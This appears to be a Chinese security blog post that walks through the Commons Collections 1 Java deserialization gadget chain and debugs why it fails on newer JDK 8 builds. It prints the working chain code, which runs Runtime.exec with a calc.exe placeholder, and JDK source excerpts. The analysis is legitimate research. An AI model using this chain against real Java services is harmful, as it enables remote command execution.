 ```yaml
---
layout:     post
title:      "调试分析CommonCollection1中的一个小问题"
subtitle:   ""
date:       2021-03-30 17:40:00
author:     "kuron3k0"
header-img: "img/home-bg-o.jpg"
tags:
    - Java
    - 反序列化
---
```


调CC1的时候脑子有个地方没转过弯来，这里做一下笔记

## CommonCollection1反序列化链

网上相关的分析文章有很多，这里就不详细展开了，大概过一下整个流程。

首先是构造Transformer链，用于后面到达漏洞点执行命令
```java
Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", 
        new Class[] {String.class,Class[].class }, 
        new Object[] { "getRuntime",new Class[0] }),
    new InvokerTransformer("invoke", 
        new Class[] {Object.class,Object[].class }, 
        new Object[] { null, new Object[0] }),
    new InvokerTransformer("exec", 
        new Class[] { String.class},
        new String[] { "calc.exe" }),
};

Transformer transformerChain = new ChainedTransformer(transformers);

```

新建一个`LazyMap`，调用`LazyMap.get`即可触发`transformerChain`的命令执行
```java
Map innerMap = new HashMap();
Map outerMap = LazyMap.decorate(innerMap, transformerChain);
```

这里是`LazyMap.get`的源码，可以看到调用了`this.factory`（即之前传进来的`transformerChain`）的`transform`方法
```java
public Object get(Object key) {
    if (!super.map.containsKey(key)) {
        Object value = this.factory.transform(key);
        super.map.put(key, value);
        return value;
    } else {
        return super.map.get(key);
    }
}
```

而`AnnotationInvocationHandler`这个类的`invoke`方法会调用`this.memberValues.get`，`memberValues`是初始化的时候传进来的`LazyMap`
```java
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor construct = clazz.getDeclaredConstructor(Class.class,Map.class);
construct.setAccessible(true);
InvocationHandler handler = (InvocationHandler)construct.newInstance(Retention.class, outerMap);
```

然后在这个`InvocationHandler`外面套一层动态代理，使其在调用任意方法的时候触发`invoke`函数，最后再包一层`InvocationHandler`用作反序列化
```java
Map proxyMap = (Map)Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[] {Map.class},handler);
handler = (InvocationHandler)construct.newInstance(Retention.class, proxyMap);
```

## 高版本jdk的问题
但是这个payload在高版本jdk是利用不了的，看p神的文档说是因为`AnnotationInvocationHandler`的逻辑改了，具体可以看[这里](http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/rev/f8a528d0379d)

我调试的时候本地jdk是`1.8.0_271`，的确是利用不了的，但是当时看代码的时候觉得，既然这里`AnnotationInvocationHandler`调用了`memberValues`的`entrySet`，就会触发`invoke`方法，那为什么调用不了？虽然按上面说的逻辑变了，但是似乎对这个过程没什么影响？
![](/img/in-post/commoncollection1/1.png)

于是跟着进了`invoke`，发现`memberValues`变成了`LinkedHashMap`；，？？？
![](/img/in-post/commoncollection1/3.png)

翻了挺多文章也没看到具体是为什么失效了，都是说jdk版本高了，然后就利用不了了，这里卡了挺久的。后来突然发现`readObject`开头调用了`ObjectInputStream`的`readFields`方法（眼瞎。。），虽然没见过这个函数，但是大概猜的出来就是反序列化当前对象的属性

跟进`readFields`的源码可以看到的确是如此
```java
void readFields() throws IOException {
    bin.readFully(primVals, 0, primVals.length, false);

    int oldHandle = passHandle;
    ObjectStreamField[] fields = desc.getFields(false);
    int numPrimFields = fields.length - objVals.length;
    for (int i = 0; i < objVals.length; i++) {
        objVals[i] = readObject0(Object.class, fields[numPrimFields + i].isUnshared());
        objHandles[i] = passHandle;
    }
    passHandle = oldHandle;
}
```

调试中也看到了`AnnotationInvocationHandler`的`readObject`被调用了两次，很明显这个`AnnotationInvocationHandler`就是`memberValues`被初始化为`LazyMap`的那个
![](/img/in-post/commoncollection1/2.png)

但是在最后把`memberValues`赋值为一个新的`LinkedHashMap`，所以`LazyMap`就被替换掉了，利用失败。之前一直不清楚后面这两句`UnsafeAccessor`是怎么生效的，原来是在这里
![](/img/in-post/commoncollection1/4.png)



## 参考
[http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/rev/f8a528d0379d](http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/rev/f8a528d0379d)
[https://marcuseddie.github.io/2018/java-ObjectInputStream.html](https://marcuseddie.github.io/2018/java-ObjectInputStream.html)